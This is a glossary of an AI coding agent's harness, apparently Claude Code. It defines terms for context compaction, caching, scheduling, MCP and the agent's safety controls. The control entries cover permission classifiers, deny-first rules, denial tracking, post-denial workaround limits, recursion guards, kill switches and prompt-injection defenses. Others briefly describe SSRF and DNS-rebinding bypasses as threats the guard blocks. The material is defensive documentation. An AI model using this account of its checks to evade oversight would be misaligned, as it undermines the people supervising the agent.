**checkmark transition** -- A UI state in the permission dialog where an auto-approved action briefly shows a dimmed checkmark indicator before being removed, with different display durations based on terminal focus. Checkmark transitions provide visual feedback for auto-approved operations without interrupting the user. (src/hooks/useCanUseTool.tsx)

**checkpoint-restore** -- The ability to save and resume agent state across sessions, implemented via JSONL session persistence and tombstone entries. Checkpoint-restore enables long-running tasks to span multiple sessions, with the harness reconstructing context from persisted state. (src/utils/sessionStorage.ts)

**combined abort signal** -- The pattern of merging a parent abort signal with a timeout signal via createCombinedAbortSignal, used across all hook execution paths to enforce timeout boundaries. Combined signals provide unified abort semantics from two independent sources: user cancellation and timeout expiration. (src/utils/hooks/)

**command registry** -- The memoized collection of all Command objects assembled from built-in, skill-directory, plugin, bundled, and MCP sources, filtered by availability and feature gates. The command registry is the central index of all user-invocable slash commands. (src/commands.ts)

**command shadowing** -- The precedence mechanism where commands loaded earlier in the array take priority over later commands with the same name during findCommand lookup. Shadowing enables user-defined commands to override built-in commands of the same name. (src/commands.ts)

**compact boundary** -- A SystemCompactBoundaryMessage that records the compaction type, pre-compact token count, and the UUID of the last message before compaction. Compact boundaries enable the harness to reconstruct the conversation timeline after compaction by marking where summarization occurred. (src/services/compact/)

**compaction** -- The process of reducing conversation context length by summarizing or discarding older messages to stay within token budgets. Compaction is the core context management mechanism in cc, implementing HER Pattern 5 (Progressive Context Compaction) across multiple severity levels. (src/services/compact/)

**completion checker** -- A type-specific function registered via registerCompletionChecker() that determines remote task completion by checking external state (e.g., PR merge status) on every poll tick. Completion checkers decouple the harness from the specifics of how different remote task types signal completion. (src/tasks/RemoteAgentTask/)

**continue-vs-spawn decision** -- The coordinator's decision whether to continue an existing worker via SendMessage or spawn a fresh worker via AgentTool, based on context overlap between the worker's current context and the next task. This decision optimizes resource usage by reusing workers when their context is relevant. (src/coordinator/coordinatorMode.ts)

**cron jitter** -- Deterministic per-task delay applied to cron fire times to prevent thundering-herd conditions, derived from the task ID for reproducibility across restarts. Cron jitter ensures that multiple scheduled tasks do not fire simultaneously, distributing load evenly over time. (src/utils/cron.ts)

**Cross-App Access** -- An enterprise authentication pattern where MCP servers authenticate through a corporate Identity Provider (IdP) rather than their own OAuth flow, enabling SSO across all MCP servers. Cross-App Access simplifies authentication for enterprise deployments by centralizing identity management. (src/services/mcp/auth.ts)

**damage tracking** -- Maintaining a bounding rectangle of cells that changed during a render to limit the diff algorithm to only the modified region, skipping unchanged cells. Damage tracking is a rendering optimization that reduces the computational cost of screen differencing. (src/ink/screen.ts)

**debug log level** -- A five-tier verbosity filter (verbose, debug, info, warn, error) controlling which messages are written to the debug log file, configured via CLAUDE_CODE_DEBUG_LOG_LEVEL. Debug log levels enable selective output filtering without modifying code. (src/utils/debug.ts)

**deferred tool** -- A tool not included in the initial prompt but loaded on demand via ToolSearch when the model requests it, reducing prompt size. Deferred tools implement progressive tool expansion, trading a small first-use latency cost for significant prompt-size savings on every query. (src/tools/ToolSearchTool/)

**diminishing-returns detection** -- The heuristic in checkTokenBudget() that compares token deltas across consecutive loop iterations, stopping the query loop when progress falls below DIMINISHING_THRESHOLD for at least 3 continuations. This detection prevents the agent from continuing to consume resources when it is no longer making meaningful progress. (src/query/tokenBudget.ts)

**directory contract** -- The consistent subdirectory pattern each tool follows: a main implementation file, a prompt.ts for model description, and optionally a UI.tsx for terminal rendering. The directory contract provides a predictable structure that makes new tools discoverable by convention. (src/tools/)

**disk-cached feature flag** -- A GrowthBook feature flag value persisted to ~/.claude.json by a previous process, read without network I/O as a fallback when the in-memory payload is unavailable. Disk-cached flags enable feature gating to work even when the GrowthBook server is unreachable. (src/services/analytics/growthbook.ts)

**DNS-rebinding protection** -- The pattern of validating DNS-resolved IP addresses and passing the validated address directly to the TCP socket, closing the window where an attacker could serve different IPs on successive DNS resolutions. DNS-rebinding protection prevents time-of-check-to-time-of-use attacks on web tool connections. (src/utils/hooks/ssrfGuard.ts)

**domain-based permission rule** -- A permission rule that matches web tool access at the hostname level using the domain:hostname pattern, enabling fine-grained access control without requiring full URL specification. Domain-based rules provide a middle ground between per-URL and blanket permission policies. (src/utils/permissions/)

**dynamic-pacing loop** -- A /loop mode using ScheduleWakeup with simple relative delays instead of cron expressions, allowing the loop to adjust its pace based on task progress and prompt cache warmth. Dynamic pacing optimizes for cache efficiency by avoiding wake-ups that would miss the 5-minute cache window. (src/utils/cron.ts)

**env var interpolation** -- The mechanism in HTTP hooks that replaces $VAR_NAME or ${VAR_NAME} patterns in header values with environment variable values, gated by an allowedEnvVars allowlist. Env var interpolation enables dynamic header construction while preventing unauthorized access to sensitive environment variables. (src/schemas/hooks.ts)

**ephemeral worktree pattern** -- An exact-shape regex pattern that matches throwaway worktrees created by automated processes (AgentTool, WorkflowTool, bridgeMain) without matching user-named worktrees, used by cleanupStaleAgentWorktrees to avoid accidental deletion. The ephemeral pattern distinguishes agent-created worktrees from user worktrees. (src/utils/worktree.ts)

**fast-path routing** -- The pattern in cli.tsx where the harness decides whether to load the model at all, routing to specialized handlers for version checks, bridge mode, daemon mode, and other non-model operations before falling through to the full CLI. Fast-path routing reduces startup latency for common non-interactive operations. (src/entrypoints/cli.tsx)

**first-source-wins** -- The policy within the policySettings source where the highest-priority policy source with content takes over entirely, rather than merging with lower-priority policy sources. First-source-wins prevents conflicting enterprise policies from being merged in unintended ways. (src/utils/settings/)

**generator-evaluator** -- A multi-agent pattern where one agent produces output and another evaluates it, used in cc's coordinator for quality gates. The generator-evaluator pattern implements separation of concerns between creation and validation, addressing the self-evaluation bias identified in HER. (HER §9.2)

**ghost text** -- An inline completion hint rendered as dimmed text after the cursor position, providing the most likely suggestion without requiring the user to open a suggestion menu. Ghost text reduces typing effort by predicting and displaying completions inline. (src/hooks/useTypeahead.tsx)

**hold-to-talk** -- A voice input protocol where the user presses and holds a key to record audio, releasing it to send for transcription, with auto-repeat key event handling and release timeout detection. Hold-to-talk provides a push-to-talk interface for voice input in terminal environments. (src/hooks/useVoice.ts)

**hook event broadcasting** -- The lightweight pub/sub system in hookEvents.ts that broadcasts hook execution progress to SDK consumers and the UI, with a pending-events buffer for late-registered handlers. Event broadcasting enables external systems to observe the hook lifecycle in real time. (src/utils/hooks/hookEvents.ts)

**in-process vs process-based shutdown** -- The distinction between aborting an in-process teammate's AbortController (shared process) versus calling gracefulShutdown() for a process-based teammate (separate process), necessary because in-process teammates cannot be terminated by killing the process. This distinction ensures correct cleanup regardless of the teammate's execution model. (src/tools/AgentTool/)

**interview phase** -- An optional plan-mode phase (gated by tengu_plan_mode_interview_phase or USER_TYPE=ant) where the agent asks clarifying questions before finalizing the plan. The interview phase implements the HER principle that humans should steer before agents execute, reducing specification gaming. (src/utils/planModeV2.ts)

**IPv4-mapped IPv6 bypass** -- An SSRF attack vector where a private IPv4 address is encoded as an IPv6 address using the ::ffff:X.X.X.X format, bypassing IPv4-only address checks. cc's SSRF guard explicitly checks for IPv4-mapped IPv6 addresses to prevent this bypass. (src/utils/hooks/ssrfGuard.ts)

**keybinding context** -- A string identifier that determines when a keyboard handler is active, enabling context-aware key routing where the most specific context takes priority. Keybinding contexts prevent key conflicts by ensuring that only the handler for the current UI state receives keypress events. (src/hooks/useGlobalKeybindings.tsx)

**latest symlink** -- An advisory symlink at ~/.claude/debug/latest pointing to the current session debug log file, created once per session by updateLatestDebugLogSymlink. The latest symlink provides a stable path for accessing the most recent debug log without knowing the session ID. (src/utils/debug.ts)

**metadata re-append** -- The pattern of unconditionally re-writing session metadata entries near EOF after compaction or on exit to keep them within the 64KB tail window for fast reads. Metadata re-append ensures that session metadata is always accessible via the head/tail read optimization. (src/utils/sessionStorage.ts)

**missed-task detection** -- The startup check that identifies cron tasks whose scheduled fire time passed while the REPL was closed, surfacing them for catch-up. Missed-task detection ensures that scheduled work is not silently dropped when the agent is not running. (src/utils/cron.ts)

**mode trap** -- A state the model can enter but cannot leave, such as plan mode in channel-based sessions where the approval dialog cannot be displayed. Mode traps are a class of UI deadlock where the agent's operational mode prevents the user interface required to exit that mode. (src/utils/planModeV2.ts)

**MCP requirement filtering** -- The mechanism that removes agents from the active list when their declared requiredMcpServers do not match any configured MCP servers, preventing runtime failures from missing infrastructure. Requirement filtering is a startup-time validation that prevents agents from being dispatched when their dependencies are unavailable. (src/tools/AgentTool/)

**MCP server connection** -- A discriminated union tracking the lifecycle state of an MCP server connection through five states: pending, connected, failed, needs-auth, and disabled. The connection state machine enables the harness to reason about server availability and route tool calls appropriately. (src/services/mcp/)

**MCP tool collapse classification** -- The heuristic categorization of MCP tools for compaction, determining which tool results can be safely summarized during context compaction based on tool name patterns, result size, and recency. Collapse classification prevents loss of critical MCP tool results during compaction. (src/services/mcp/)

**MCP transport** -- The communication channel between cc and an MCP server, implemented as stdio (child process), SSE, HTTP, WebSocket, or SDK (in-process). MCP transports abstract over the communication protocol, enabling the same tool interface regardless of how the server is connected. (src/services/mcp/)

**onChange diff** -- The centralized diff pattern in onChangeAppState that compares old and new state to trigger side effects, ensuring any setState call automatically propagates changes to all consumers. The onChange diff implements reactive state propagation without requiring explicit subscription management. (src/state/onChangeAppState.ts)

**one-shot cron task** -- A cron task that fires once and is auto-deleted, as opposed to a recurring task which reschedules after firing. One-shot tasks implement the "remind me at X" pattern, providing time-based triggers without persistent scheduling overhead. (src/utils/cron.ts)

**passthrough permission** -- A permission result type (behavior: 'passthrough') where the tool invocation requires user approval unless a rule explicitly allows it, used for MCP tools whose code is not controlled by the harness. Passthrough permissions treat third-party tools with caution since the harness cannot vouch for their behavior. (src/services/mcp/)

**permission context** -- A frozen helper object that encapsulates the resolve function, abort detection, logging, and queue operations for a single permission evaluation, threaded through all handlers. The permission context provides a clean interface for the complex state involved in permission decisions. (src/hooks/useCanUseTool.tsx)

**PewterLedgerVariant** -- A GrowthBook experiment variant controlling plan file size in plan mode V2, with arms trim/cut/cap representing progressively stricter verbosity reduction. PewterLedgerVariant enables A/B testing of plan verbosity to find the optimal balance between detail and context efficiency. (src/utils/planModeV2.ts)

**PII marker type** -- A TypeScript type set to never that forces explicit casting before including string values in analytics metadata, preventing accidental inclusion of code snippets or file paths in events. The never-typed marker implements type-level enforcement of privacy constraints. (src/services/analytics/)

**polling-based event stream** -- A pull-based coordination model where the local session periodically fetches remote agent events via HTTP, as opposed to push-based WebSocket or webhook callbacks. Polling provides a simpler and more firewall-friendly coordination mechanism than push-based alternatives. (src/tasks/RemoteAgentTask/)

**prePlanMode** -- A field in the permission context that stores the user's permission mode before entering plan mode, used to restore it on exit. PrePlanMode ensures that the transition out of plan mode returns the agent to its previous operational mode. (src/utils/planModeV2.ts)

**queue-then-drain** -- The pattern where events are buffered in an in-memory array until a sink is attached, then drained asynchronously via queueMicrotask to avoid blocking startup. Queue-then-drain enables analytics to work correctly even when the analytics backend is not yet initialized. (src/services/analytics/)

**remote trigger** -- A REST API configuration object on claude.ai CCR that defines a cloud-side agent; invoked via POST /v1/code/triggers/{id}/run to start a remote session. Remote triggers enable the harness to dispatch long-running tasks to the cloud, freeing the local session for other work. (src/tools/RemoteTriggerTool/)

**scratchpad** -- A feature-gated shared directory for durable cross-worker knowledge sharing in coordinator mode, allowing workers to read and write without permission prompts. Scratchpads implement the HER principle of file-based inter-agent communication, providing a shared workspace that persists across tool rounds. (src/coordinator/)

**server signature deduplication** -- The signature-based approach to preventing duplicate MCP server configurations, where stdio servers use the command array and URL-based servers use the unwrapped CCR proxy URL as the deduplication key. Signature deduplication prevents redundant server connections from conflicting configuration sources. (src/services/mcp/)

**session-only cron** -- A cron task held in process memory that never touches the filesystem and dies with the process when durable is false. Session-only crons are appropriate for temporary scheduling needs that should not survive process restarts. (src/utils/cron.ts)

**session-retry loop** -- A retry pattern in MCP tool calls that automatically retries once on McpSessionExpiredError after clearing the connection cache and obtaining a fresh client. Session-retry handles the common case where MCP server sessions expire between tool calls. (src/services/mcp/)

**session token unlink** -- The security pattern of deleting a secret file from disk after the infrastructure that depends on it has been confirmed running, ensuring the secret is available for retry during init but invisible to the agent loop during operation. Token unlinking prevents the agent from accessing authentication secrets that should only be used during initialization. (src/bridge/)

**structured output enforcement** -- The pattern where a PostToolUse function hook checks whether the agent has called StructuredOutputTool and, if not, blocks the response and prompts the agent to use it. Structured output enforcement guarantees that agent responses conform to expected schemas when required by the calling context. (src/schemas/hooks.ts)

**style transition caching** -- Pre-computing and caching the ANSI escape sequence needed to transition between any two style IDs, enabling zero-allocation style changes after the first call. Style transition caching eliminates repeated string construction in the terminal rendering hot path. (src/ink/screen.ts)

**synthesis** -- The coordinator's process of reading and understanding worker findings before delegating follow-up work, producing a specific implementation spec with file paths, line numbers, and expected outcomes. Synthesis is the coordinator's core function: transforming raw research into actionable implementation directives. (src/coordinator/coordinatorMode.ts)

**task assignment notification** -- A JSON message sent via the teammate mailbox when a task's owner changes, ensuring the newly assigned teammate learns about the work without polling the task list. Assignment notifications implement push-based task routing, reducing latency compared to polling-based alternatives. (src/utils/tasks.ts)

**worker** -- A subagent with subagent_type: worker dispatched by the coordinator to research, implement, or verify code changes in an isolated context. Workers are the execution units in the coordinator pattern, operating under the coordinator's direction without direct user interaction. (src/coordinator/coordinatorMode.ts)

**worktree path notice** -- An advisory message generated by buildWorktreeNotice() that warns fork children running in isolated worktrees to translate inherited context paths from the parent's working directory to the worktree root. Path notices prevent path confusion when subagents operate in worktrees with different working directories. (src/tools/AgentTool/)

**append-only discipline** -- The design principle that no entry is ever modified after write; deletions are represented by omission or explicit removal. Core to cc's session persistence model, append-only discipline guarantees that session logs form an immutable audit trail recoverable after crashes or context loss. (src/utils/sessionStorage.ts)

**auto-background** -- A mechanism that automatically transitions a synchronous subagent to asynchronous execution after a configurable timeout (default 120 seconds). This prevents long-running subagents from blocking the parent agent's query loop while still delivering results when ready. (src/tools/AgentTool/AgentTool.tsx)

**autocompact** -- An automatic compaction trigger that fires when the context window approaches capacity, initiated by the query loop. Autocompact represents the proactive stage of context management, distinguishing it from reactive compaction triggered by API rejection. (src/services/compact/autoCompact.ts)

**back-pressure** -- A mechanism that throttles or redirects agent activity when resource limits (tokens, cost, time) are approached. Back-pressure implements the HER principle that quality gates should feed failures back into agent context while keeping successes silent. (HER §20)

**back-pressure stack** -- The tiered quality gate pipeline (Type System -> Linter -> Unit Tests -> Integration Tests -> E2E Tests) where only failures surface to agent context, making success silent. This stack embodies the principle that deterministic checks are more reliable than LLM self-evaluation. (HER §20)

**bridge** -- A bidirectional transport layer connecting cc's in-process agent loop to external orchestrators (IDE extensions, web clients, SDK daemons), implementing message translation, session lifecycle management, OAuth token refresh, and permission proxying. The bridge enables cc to function as a headless backend while retaining full interactive capability. (src/bridge/)

**bubble permission model** -- A permission model where fork child processes route permission requests to the parent's terminal via IPC, since the child process has no terminal of its own, controlled by permissionMode: 'bubble' on the agent definition. This ensures that even isolated subagents remain subject to user oversight. (src/tools/AgentTool/)

**cache boundary** -- A control token (SYSTEM_PROMPT_DYNAMIC_BOUNDARY) that splits the system prompt array into static (globally cacheable) and dynamic (per-session) segments for API-level prompt caching. The boundary enables the Anthropic API to cache the static prefix across requests while invalidating only the dynamic suffix. (src/constants/prompts.ts)

**cache break** -- The event where the API's prompt cache is invalidated, detected by comparing cache_creation_input_tokens against the previous request's, requiring full re-processing of input tokens. Cache breaks represent a significant cost event because the entire cached prefix must be re-processed. (src/services/api/claude.ts)

**cache editing** -- The Anthropic API mechanism for removing tool results from the cached prompt prefix without invalidating the cache, used by the cached microcompact path. Cache editing enables targeted context reduction while preserving the cache hit on preceding messages. (src/services/compact/)

**cache-safe params** -- A set of API request parameters (system prompt, tools, model, context messages) captured immediately after assembly to ensure byte-identical prefixes between parent and fork children for prompt cache hits. This optimization allows multiple fork children to share the same cached prompt prefix, reducing cost. (src/tools/AgentTool/)

**CACHED_OR_BLOCKING** -- A GrowthBook gate evaluation pattern that returns cached true values immediately but blocks on fresh server values when the cache says false, preventing unfair blocking from stale negative values. This asymmetric strategy optimizes for the common case where features are enabled. (src/services/analytics/growthbook.ts)

**circuit breaker** -- The mechanism that stops retrying autocompact after MAX_CONSECUTIVE_AUTOCOMPACT_FAILURES consecutive failures, preventing unbounded API waste. The circuit breaker implements a fail-closed strategy: once triggered, it requires user intervention rather than continuing to consume resources. (src/services/compact/autoCompact.ts)

**circuit-broken auto mode** -- A state in which auto mode has been permanently disabled for the current session after a server-side kill switch fires, preventing re-entry even on subsequent GrowthBook refreshes. This is a safety mechanism that overrides local configuration when the platform detects unsafe behavior. (src/utils/permissions/autoModeState.ts)

**classifier** -- A function that maps a shell command string to a risk band (read, write, destructive) to drive permission decisions. Classifiers enable the harness to make fast, deterministic safety judgments without invoking the model, reducing latency for common operations. (src/utils/permissions/bashClassifier.ts)

**clip stack** -- A stack of intersecting clip regions maintained during rendering to implement overflow: hidden behavior, where nested clips are intersected and writes are clipped to the innermost region. The clip stack enables efficient spatial culling of terminal output. (src/ink/)

**coordinator mode** -- An operational mode where the parent agent orchestrates worker subagents instead of implementing directly, gated by a compile-time feature gate and a runtime environment variable. Coordinator mode implements the HER Generator-Evaluator pattern at the process level. (src/coordinator/coordinatorMode.ts)

**compaction death spiral** -- The self-reinforcing failure mode where each failed compaction attempt adds tokens to the context, making the next attempt less likely to succeed. The death spiral is a primary motivation for cc's circuit breaker and hard reset fallback. (HER §6.1)

**compaction hierarchy** -- The five-stage context rescue pipeline: history_snip -> Microcompact -> Context Collapse -> Autocompact -> Hard Reset. Each stage applies progressively more aggressive summarization, with the final stage requiring user intervention. (src/services/compact/)

**companion bones** -- The deterministic-from-identity traits of a Buddy companion (species, eye, hat, shiny, stats), always re-derived from a seeded PRNG and never persisted, preventing forgery or gaming. Bones ensure that the same user always sees the same companion regardless of session state. (src/buddy/companion.ts)

**companion soul** -- The persisted companion data stored in the user global config, merged with freshly-derived bones at display time so that stale bones fields in old-format configs get overridden. Soul data represents the mutable state of the companion (experience, achievements) while bones remain fixed. (src/buddy/companion.ts)

**compound failure problem** -- The mathematical result that per-step reliability compounds poorly over many steps: 95% per-step yields only 36% over 20 steps, and doubling task duration quadruples failure rate. This result from HER §6 motivates the emphasis on back-pressure and quality gates in long-running agents. (HER §6)

**conditional rule scoping** -- The mechanism by which .claude/rules/*.md files with frontmatter paths: globs are filtered at query time to inject only instructions relevant to the current file being operated on. Conditional scoping prevents prompt bloat from loading all project rules unconditionally. (src/utils/claudemd.ts)

**conditional skill** -- A skill with a paths frontmatter field that is not loaded into the tool listing at startup but is activated when the model operates on files matching the declared glob patterns. Conditional skills reduce initial prompt size while remaining discoverable when contextually relevant. (src/tools/SkillTool/)

**consolidation lock** -- A filesystem-based lock file whose mtime serves as the lastConsolidatedAt timestamp and whose body contains the holder's PID, preventing concurrent consolidation across processes. The lock implements the HER principle of using filesystem state for cross-process coordination. (src/services/autoDream/consolidationLock.ts)

**content-hash temp path** -- A temporary file path derived from a content hash rather than a random UUID, used to preserve API prompt cache hits across process boundaries. Content-hash paths ensure that identical content always maps to the same file, enabling cache reuse. (src/utils/)

**context collapse** -- A severe compaction stage triggered when token usage exceeds critical thresholds, aggressively summarizing the full conversation. Context collapse is more destructive than microcompact or autocompact because it discards most of the conversation history. (src/services/compact/)

**cost gate** -- A mechanism that aborts or degrades a session when spend exceeds a configured threshold, implementing three tiers: soft cap (warning + model downgrade), hard cap (stop new tasks), and kill switch (immediate abort). Cost gates are the financial counterpart to the back-pressure stack's quality gates. (HER §13)

**cost metering** -- The real-time tracking of token and dollar costs per session and per model, implemented in src/cost-tracker.ts via addToTotalSessionCost and related functions. Cost metering provides the observability foundation for cost gates and spend-rate monitoring. (src/cost-tracker.ts)

**cross-reference table** -- A structured mapping from HER patterns, failure modes, or best practices to the specific chapters and source files that address them. The cross-reference table enables readers to navigate from theoretical framework to concrete implementation. (Chapter 2)

**debug filter pattern** -- A module or function name pattern specified via --debug=pattern that filters debug output to matching entries, parsed by parseDebugFilter and applied by shouldShowDebugMessage. Filter patterns reduce debug log noise to relevant subsystems. (src/utils/debug.ts)

**defense-in-depth** -- A security architecture pattern where multiple independent defensive layers are stacked, so that failure of one layer does not compromise the system. cc implements this for prompt injection with permission models, classifiers, SSRF guards, and denial tracking. (HER §12)

**denial tracking** -- A subsystem that tracks consecutive and total permission denials to prevent classifier death spirals, falling back to interactive prompting after configurable thresholds. Denial tracking prevents the agent from repeatedly attempting blocked operations. (src/utils/permissions/denialTracking.ts)

**denial workaround guidance** -- The DENIAL_WORKAROUND_GUIDANCE pattern that constrains model behavior after permission denials, allowing reasonable workarounds while preventing malicious bypasses. This guidance prevents the agent from escalating to unsafe alternatives when denied. (src/constants/prompts.ts)

**deny-first evaluation** -- The permission pipeline design where deny rules are checked before allow rules, ensuring that a deny rule from any source always takes precedence over an allow rule. Deny-first evaluation is a security-critical ordering that prevents accidental privilege escalation. (src/utils/permissions/)

**diminishing-returns detector** -- The heuristic in checkTokenBudget() that compares token deltas across consecutive loop iterations, stopping the query loop when progress falls below DIMINISHING_THRESHOLD for at least 3 continuations. This detector prevents the agent from continuing to consume resources when it is no longer making meaningful progress. (src/query/tokenBudget.ts)

**dispatch pipeline** -- The ordered sequence of stages a tool invocation passes through (validation, permission, execution, post-hooks), from model intent to result. The dispatch pipeline is the central safety mechanism of cc, implementing defense-in-depth at the tool level. (src/services/tools/toolExecution.ts)

**dream consolidation** -- A background process that reviews, deduplicates, and prunes memory files during idle time, implemented via a three-gate system (time, sessions, lock) and a forked subagent. Dream consolidation implements HER Pattern 4, moving knowledge from ephemeral session context to durable memory files. (src/services/autoDream/)

**drop-in convention** -- The managed-settings.d directory pattern where *.json files are loaded in alphabetical order and merged on top of the base managed-settings.json, matching the systemd/sudoers drop-in convention. Drop-in conventions enable enterprise administrators to layer configuration without modifying base files. (src/utils/settings/)

**dynamic skill discovery** -- The process of discovering skills from .claude/skills directories encountered during file operations, as opposed to the startup-time scan. Dynamic discovery ensures that skills relevant to newly-accessed directories become available without restarting the session. (src/skills/)

**eager settings loading** -- The pattern of parsing CLI flags before the Commander program is constructed, necessary when flags affect initialization behavior. Eager loading enables flags like --debug or --model to influence startup before the full CLI framework is initialized. (src/entrypoints/cli.tsx)

**early input buffer** -- The startCapturingEarlyInput() mechanism that buffers terminal keystrokes while the main module loads, flushing them into the REPL once the Ink rendering pipeline is ready. This prevents keystroke loss during the startup period when the terminal is not yet accepting input. (src/entrypoints/)

**entitlement-activation gate** -- The two-layer availability pattern where a tool requires both entitlement (enrolled in experiment/feature flag) and activation (explicit user opt-in), as implemented by Brief's isBriefEntitled() + isBriefEnabled(). This gate ensures that experimental features are not accidentally exposed to users who have not opted in. (src/tools/BriefTool/)

**entrypoint** -- The MEMORY.md index file that is always loaded into context, serving as the compact catalog of available memory topic files, capped at 200 lines and 25KB. The entrypoint implements the HER principle of tiered memory: a compact always-loaded index plus on-demand detail files. (src/memdir/)

**escalation record** -- A context-rich payload attached to human-in-the-loop prompts carrying the agent's confidence, intent, prior attempts, options, and recommended action. Escalation records enable informed human decision-making at critical junctures. (HER §11)

**evaluator ouroboros** -- The degenerate case where using an LLM evaluator to grade LLM output creates a circular validation loop, named after the Ouroboros problem identified in HER §9.2. The ouroboros problem motivates the preference for deterministic evaluation (tests, linters) over LLM evaluation. (HER §9.2)

**exit code semantics** -- The three patterns (block-on-2, show-on-2, output-as-input) that define how a hook's exit code is interpreted for each lifecycle event. Exit code semantics provide a compact protocol for hook-to-harness communication without requiring structured output formats. (src/schemas/hooks.ts)

**extraction agent** -- A forked subagent with write access limited to a single file (the session memory file), implementing HER Pattern 7 for isolated context extraction. The extraction agent's restricted write scope prevents it from modifying the working tree while preserving the ability to persist observations. (src/services/SessionMemory/)

**fail-closed** -- A safety design principle where uncertainty or error states default to the most restrictive behavior, preventing data loss from false negatives. Contrasted with fail-open, where errors default to permissive behavior. cc's permission system, classifiers, and SSRF guards all default to fail-closed. (src/utils/permissions/)

**fail-closed default** -- A default value for a safety-critical method that assumes the most restrictive behavior when the method is not explicitly implemented, ensuring that omission cannot lead to unsafe execution. Fail-closed defaults are a structural control that makes unsafe configurations impossible by default. (src/utils/permissions/)

**failure mode** -- A categorization of how long-running agents can fail, as defined by HER Section 6, covering 17 specific modes from context rot to specification gaming. Failure modes provide a taxonomy for analyzing agent reliability and designing targeted mitigations. (HER §6)

**fast-resume path** -- An optimization that checks whether a worktree with the same slug already exists by reading the git internal pointer file directly, avoiding subprocess spawn overhead (~15ms) on every resume. The fast-resume path significantly reduces latency for the common case of resuming an existing worktree. (src/utils/worktree.ts)

**feature gate** -- A compile-time boundary checked via feature() from bun:bundle that determines which code exists in the external build. Feature gates enable cc to maintain a single codebase while producing different binaries for internal and external distribution. (src/entrypoints/)

**file-history backup** -- A content-hash-keyed backup created before file edits, stored at ~/.claude/file-history/{sessionId}/{sha256-hash}@v{N}, providing checkpoint-restore semantics for undo operations. File-history backups implement the HER principle of idempotent operations with rollback capability. (src/utils/fileHistory.ts)

**five-layer defense-in-depth** -- HER Section 12.1's security model consisting of prompt-level guardrails, schema-level restrictions, runtime approval, tool-level validation, and lifecycle hooks, each acting as a progressive filter on tool invocations. cc implements all five layers, making it the most complete public example of this architecture. (HER §12.1)

**fixed-point command stripping** -- The iterative approach to stripping env vars and wrapper commands from shell invocations, applying both operations until no new candidates are produced. Fixed-point stripping handles nested wrapper commands (e.g., `env FOO=bar npx prettier`) that a single pass would miss. (src/tools/BashTool/commandSemantics.ts)

**flag-level allowlisting** -- The practice of validating individual CLI flags for complex commands rather than using command-level regexes, implemented via COMMAND_ALLOWLIST with typed FlagArgType entries. Flag-level allowlisting prevents parser differentials where the allowlist and the shell disagree on command parsing. (src/tools/BashTool/bashSecurity.ts)

**fork** -- A child process created via Bun.fork() to run a subagent with its own memory and event loop, communicating via IPC. Forks provide process-level isolation for subagents, preventing a misbehaving subagent from corrupting the parent's state. (src/tools/AgentTool/forkSubagent.ts)

**fork boilerplate** -- An XML-tagged instruction block wrapped in FORK_BOILERPLATE_TAG that is injected into fork child messages to prevent recursive forking, enforce structured output format, and constrain the child's behavior to its directive scope. Fork boilerplate is a structural control that limits the blast radius of subagent misbehavior. (src/tools/AgentTool/)

**fork recursion guard** -- A dual-guard mechanism preventing infinite recursive agent spawning: a message-scan guard checking FORK_BOILERPLATE_TAG and a querySource guard surviving autocompact. The recursion guard ensures that subagents cannot spawn their own subagents without explicit authorization. (src/tools/AgentTool/)

**frontmatter** -- A YAML header delimited by --- markers at the top of a Markdown file, parsed into typed fields that configure agents, skills, or slash commands. Frontmatter enables declarative configuration of complex agent behavior without requiring code changes. (src/utils/frontmatterParser.ts)

**full jitter** -- A retry backoff strategy where the delay is uniformly distributed between 0 and the current backoff interval, preventing thundering herd effects when multiple agents retry simultaneously. Full jitter is superior to exponential backoff with fixed jitter for distributed systems. (src/services/api/)

**greenfield bias** -- The tendency for agent benchmarks and results to be more impressive on new projects without existing architecture constraints, versus brownfield work on existing codebases. Greenfield bias inflates perceived agent capability and should be accounted for when evaluating harness performance. (HER §18)

**grace period** -- A configurable delay (200ms in the interactive handler) that prevents accidental user keypresses from canceling an in-progress automated check. Grace periods reduce false-negative permission denials from keyboard bounce or accidental key presses. (src/hooks/useCanUseTool.tsx)

**guide** -- A configuration-driven constraint that shapes agent behavior, such as CLAUDE.md instructions, settings, or managed policies. Guides correspond to Martin Fowler's taxonomy of "guides" -- advisory controls that influence behavior without enforcing it. (HER §4)

**hard reset** -- The fallback when all compaction stages have failed, requiring user intervention to resolve prompt_too_long errors. Hard reset is the fail-closed terminal state of the compaction hierarchy, ensuring that the agent never silently continues with corrupted context. (src/services/compact/)

**head/tail read** -- The optimization pattern of reading only the first and last 64KB of a JSONL file to extract metadata (first prompt, last title, last tag) without parsing the full content. Head/tail reads enable fast session listing without loading entire session histories. (src/utils/sessionStorage.ts)

**head-limit pagination** -- The pattern in GrepTool and GlobTool where a default limit (250) caps result size, with explicit pagination signaling when truncation occurs, enabling the model to paginate with offset. Head-limit pagination prevents context window overflow from large search results. (src/tools/GrepTool/, src/tools/GlobTool/)

**high water mark** -- A persistent counter file (.highwatermark) that stores the maximum task ID ever assigned, preventing ID reuse after deletion or reset operations. The high water mark ensures that task IDs are monotonically increasing across process restarts. (src/utils/tasks.ts)

**hook** -- A deterministic lifecycle event handler (command, prompt, HTTP, agent, or function type) triggered at PreToolUse, PostToolUse, or other defined points. Hooks implement HER Pattern 12, enabling external systems to observe and control the agent's tool dispatch pipeline. (src/schemas/hooks.ts)

**hook matcher** -- A grouping construct that associates one or more hooks with a matcher string, where the matcher is event-specific (tool names for PreToolUse/PostToolUse, notification types for Notification, etc.). Hook matchers enable fine-grained targeting of hook execution. (src/utils/hooks/hooksSettings.ts)

**harness** -- The outer runtime layer that orchestrates the model's interactions with tools, permissions, hooks, memory, and the user. The harness is the complete infrastructure that wraps the model, implementing the equation Agent = Model + Harness. (HER §1)

**immediate mode** -- The debug writer mode where writes use appendFileSync to guarantee crash survival, active when --debug or DEBUG env var is set. Immediate mode trades write performance for crash safety, ensuring that debug logs are never lost due to process termination. (src/utils/debug.ts)

**internal path carve-out** -- An exception in the filesystem permission layer that allows the agent to access specific internal paths (plan files, scratchpads, session memory) without explicit permission, even when those paths reside within otherwise dangerous directories. Carve-outs prevent the permission system from blocking its own infrastructure. (src/utils/permissions/filesystem.ts)

**iron gate** -- The GrowthBook feature flag (tengu_iron_gate_closed) that controls whether the auto mode classifier fails closed (deny) or fails open (prompt) when the classifier is unavailable. Iron gate implements the fail-closed principle at the feature-flag level. (src/utils/permissions/)

